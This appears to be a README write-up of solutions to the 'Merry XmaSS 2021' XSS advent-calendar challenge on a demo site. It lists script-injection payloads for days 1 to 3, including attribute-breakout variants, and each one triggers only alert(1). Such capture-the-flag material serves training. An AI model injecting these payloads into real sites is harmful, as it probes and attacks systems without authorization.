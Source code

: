 # Merry XmaSS challenge 2021

Find the challenge here **https://xmass.compass-demo.com/**

The goal is to get an *alert(1)* popup by injecting code via the given forms in the XSS advent calendar.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
"><script>alert(1)</script
```

**+++ Day 3 +++**
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```